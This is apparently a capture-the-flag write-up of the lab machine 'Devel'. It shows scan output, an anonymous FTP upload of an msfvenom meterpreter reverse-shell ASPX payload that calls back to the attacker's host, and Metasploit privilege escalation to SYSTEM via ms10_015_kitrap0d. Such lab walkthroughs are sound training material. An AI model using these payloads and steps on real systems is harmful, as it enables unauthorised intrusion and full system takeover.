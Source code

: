 # Devel
### Info:
OS: Windows 7 x86 <br>
IP: 10.10.10.5 <br>
Difficulty : Easy-Medium <br>
### Exploitation:

```nmap -sC -sV -oA nmap 10.10.10.5``` <br>

gives us the results : <br>

```
# Nmap 7.70 scan initiated Mon Jan  7 15:45:01 2019 as: nmap -sC -sV -oA nmap 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.32s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We see a FTP server at port 21 and a Microsoft IIS httpd 7.5 at port 80 <br>
Trying connecting ftp with username: <b>anonymous</b> and pass: <b>anything can be inserted</b> gives us access to the ftp client.<br>
<b>Payload creation</b> <br>(we used aspx as it had iis server 7.5 which was kind of new so we didnot considered using asp)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.16 LPORT=4449 -f aspx -o dominat0r.aspx
```
Inserting this on the ftp server : <br> `Put dominat0r.aspx` <br>
Using msfconsole we got the shell :
```
Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.16:4449 -> 10.10.10.5:49160 (10.10.10.5)

```
### Privilege Escalation 
By default, the working directory is set to ​c:\windows\system32\inetsrv​​, which the IIS user does not have write permissions for. Navigating to ​c:\windows\TEMP ​​is a good idea, as a large portion of Metasploit’s Windows privilege escalation modules require a file to be written to the target during exploitation.
<br>
Using `> search suggest` to look for modules for privilege escalation we get : <br>
```
Matching Modules
================

   Name                                             Disclosure Date  Rank    Description
   ----                                             ---------------  ----    -----------
   auxiliary/server/icmp_exfil                                       normal  ICMP Exfiltration Service
   exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   post/multi/recon/local_exploit_suggester                          normal  Multi Recon Local Exploit Suggester
   post/osx/gather/enum_colloquy                                     normal  OS X Gather Colloquy Enumeration

```
and we ran `post/multi/recon/local_exploit_suggester` which gave local exploits for x86/windows :
```
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 39 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
we used the first exploit `ms10_015_kitrap0d` which opened 2nd session for us:
```
msf exploit(windows/local/ms10_015_kitrap0d) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.16:4449 -> 10.10.10.5:49160 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.16:4449 -> 10.10.10.5:49162 (10.10.10.5)
```
The flags can now be obtained from c:\Users\babis\Desktop\user.txt.txt and c:\Users\Administrator\Desktop\root.txt.txt
### Things Learned :
Basic Windows privilege escalation techniques <br>
Exploiting weak credentials
